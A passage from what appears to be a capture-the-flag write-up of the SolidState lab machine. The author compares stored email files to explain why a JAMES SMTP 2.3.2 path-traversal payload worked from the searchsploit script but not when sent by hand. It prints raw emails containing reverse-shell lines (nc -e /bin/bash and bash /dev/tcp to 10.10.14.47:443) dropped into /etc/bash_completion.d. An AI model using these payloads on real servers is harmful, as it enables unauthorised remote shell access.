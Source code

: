 However, when I tried the same payload in the `searchsploit` script, it worked. It was driving me crazy, so I went to look at the different payloads.

For each email received by the account, there are two files in the user’s directory (for this user, that’s `/etc/bash_completion.d`), a Object Store and a Stream Store. For example:

```

root@solidstate:/etc/bash_completion.d# ls
4D61696C313538383231373936323331372D38.Repository.FileObjectStore  4D61696C313538383231373936323331372D38.Repository.FileStreamStore

```

The Stream Store is the one that contains the payload. It looks like a raw email:

```

Return-Path: <'0xdf@10.10.14.47>
Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.47 ([10.10.14.47])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
FROM: 0xdf@10.10.14.47

'
/bin/nc -e /bin/bash 10.10.14.47 443 &

```

To try to figure out why the scripted version worked while the manual version didn’t, with both emails sitting in `/etc/bash_completion.d`, I ran `diff`:

```

root@solidstate:/etc/bash_completion.d# diff 4D61696C313538383231363034383637362D33.Repository.FileStreamStore 4D61696C313538383231363132353231352D34.Repository.FileStreamStore
1,2c1,2
< Return-Path: <'0xdf@10.10.14.47>
< Message-ID: <22085305.3.1588216048676.JavaMail.root@solidstate>
---
> Return-Path: <'@team.pl>
> Message-ID: <9571892.4.1588216125216.JavaMail.root@solidstate>
8c8
<           by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 614
---
>           by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 47
10,12c10,12
<           Wed, 29 Apr 2020 23:07:28 -0400 (EDT)
< Date: Wed, 29 Apr 2020 23:07:28 -0400 (EDT)
< FROM: 0xdf@10.10.14.47
---
>           Wed, 29 Apr 2020 23:08:45 -0400 (EDT)
> Date: Wed, 29 Apr 2020 23:08:45 -0400 (EDT)
> From: team@team.pl
14,15c14,15
< '
< bash -i >& /dev/tcp/10.10.14.47/443 0>&1
---
> '
> bash -i >& /dev/tcp/10.10.14.47/443 0>&1
```